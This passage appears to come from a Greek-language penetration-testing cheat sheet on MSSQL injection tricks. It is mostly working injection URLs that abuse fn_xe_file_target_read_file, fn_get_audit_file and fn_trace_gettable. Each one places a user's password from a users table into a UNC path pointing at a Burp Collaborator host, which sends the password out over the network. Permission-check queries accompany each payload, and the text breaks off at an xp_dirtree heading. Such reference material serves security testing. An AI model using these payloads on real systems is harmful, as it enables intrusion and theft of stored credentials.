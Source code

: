 ## SSRF

Αυτά τα κόλπα SSRF [προήλθαν από εδώ](https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/)

### `fn_xe_file_target_read_file`

Απαιτεί δικαιώματα **`VIEW SERVER STATE`** στον διακομιστή.
```
https://vuln.app/getItem?id= 1+and+exists(select+*+from+fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select+pass+from+users+where+id=1)%2b'.064edw6l0h153w39ricodvyzuq0ood.burpcollaborator.net\1.xem',null,null))
```

```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='VIEW SERVER STATE';
# Or doing
Use master;
EXEC sp_helprotect 'fn_xe_file_target_read_file';
```
### `fn_get_audit_file`

Απαιτεί την άδεια **`CONTROL SERVER`**.
```
https://vuln.app/getItem?id= 1%2b(select+1+where+exists(select+*+from+fn_get_audit_file('\\'%2b(select+pass+from+users+where+id=1)%2b'.x53bct5ize022t26qfblcsxwtnzhn6.burpcollaborator.net\',default,default)))
```

```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='CONTROL SERVER';
# Or doing
Use master;
EXEC sp_helprotect 'fn_get_audit_file';
```
### `fn_trace_gettabe`

Απαιτεί την άδεια **`CONTROL SERVER`**.
```
https://vuln.app/ getItem?id=1+and+exists(select+*+from+fn_trace_gettable('\\'%2b(select+pass+from+users+where+id=1)%2b'.ng71njg8a4bsdjdw15mbni8m4da6yv.burpcollaborator.net\1.trc',default))
```

```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='CONTROL SERVER';
# Or doing
Use master;
EXEC sp_helprotect 'fn_trace_gettabe';
```
### `xp_dirtree`, `xp_fileexists`, `xp_subdirs` <a href="#limited-ssrf-using-master-xp-dirtree-and-other-file-stored-procedures" id="limited-ssrf-using-master-xp-dirtree-and-other-file-stored-procedures"></a>
